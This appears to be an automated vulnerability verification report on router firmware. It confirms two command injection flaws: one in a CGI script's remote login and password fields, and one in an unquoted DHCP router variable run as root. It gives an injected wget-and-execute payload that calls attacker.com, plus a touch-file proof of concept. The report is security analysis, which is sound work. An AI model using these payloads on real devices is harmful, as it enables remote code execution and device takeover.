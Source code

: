 ## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了命令注入漏洞。证据来自 RMT_invite.cgi 和 proccgi 的分析：1) RMT_invite.cgi 使用 eval "`/www/cgi-bin/proccgi $*`" 和 ${nvram} set 命令直接嵌入 FORM_TXT_remote_passwd、FORM_TXT_remote_login 等用户变量，无输入验证；2) proccgi 反编译代码显示转义函数仅处理 $、"、\、`，但未转义 ;、&、| 等字符，允许命令注入。攻击者模型为已认证用户（需登录凭据），他们可发送恶意 HTTP 请求。完整攻击链：攻击者提交 POST 请求到 /cgi-bin/RMT_invite.cgi，设置 FORM_submit_flag=register_user（或类似动作），并注入 FORM_TXT_remote_passwd='; malicious_command ;'。例如，将 FORM_TXT_remote_passwd 设置为 '; wget http://attacker.com/shell.sh -O /tmp/shell.sh ; sh /tmp/shell.sh ;' 可下载并执行任意脚本。由于路径可达（脚本处理注册请求）和实际影响（获得 shell 访问或系统修改），漏洞真实可利用。风险高因命令注入可能导致完全系统控制。

## 验证指标

- **验证时长：** 733.68 秒
- **Token 使用量：** 1012846

---

## 原始信息

- **文件/目录路径：** `usr/share/udhcpc/default.script.ap`
- **位置：** `default.script.ap: approximately lines 40-43 (for loop with route command)`
- **描述：** The script contains a command injection vulnerability in the processing of the DHCP 'router' option. When the script executes for 'renew' or 'bound' events, it iterates over the $router variable (containing router IPs from DHCP) and runs the route command without sanitizing input. If an attacker provides a crafted router value with shell metacharacters (e.g., '1.2.3.4; malicious_command'), the shell interprets and executes the injected command. This occurs because the variable is not quoted, allowing word splitting and command substitution. The script likely runs with root privileges, enabling privilege escalation. Trigger conditions include a malicious DHCP response during lease renewal or acquisition.
- **代码片段：**
  ```
  for i in $router ; do
      $ECHO "adding router $i"
      $ROUTE add default gw $i dev $interface
  done
  ```
- **备注：** Exploitation requires the attacker to control the DHCP server or spoof DHCP responses, which may be feasible if the attacker is on the same network. The script is executed by udhcpc, which typically runs with root privileges. No evidence of input validation or sanitization was found in this file. Further analysis of the udhcpc binary, network configuration, and the /bin/config utility is recommended to assess full impact and additional attack vectors.

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了命令注入漏洞。证据来自文件 'usr/share/udhcpc/default.script.ap' 中的代码：for 循环处理 $router 变量时，未对输入进行引用或清理，直接用于 route 命令。攻击者模型：未经身份验证的远程攻击者可通过控制 DHCP 服务器或欺骗 DHCP 响应（在同一网络中）提供恶意路由器值（如 '1.2.3.4; malicious_command'）。当 udhcpc 触发 'renew' 或 'bound' 事件时，脚本以 root 权限执行，shell 会进行单词分割和命令替换，执行注入的命令。完整攻击链：攻击者发送恶意 DHCP 响应 → 设备处理响应时执行脚本 → $router 变量被展开 → route 命令执行时注入恶意命令。PoC 步骤：攻击者配置恶意 DHCP 服务器，在路由器选项中发送值 '1.2.3.4; touch /tmp/pwned'；当目标设备获取或更新 DHCP 租约时，文件 /tmp/pwned 将被创建，证明命令执行。漏洞风险高，因可能导致权限提升和完全系统控制。
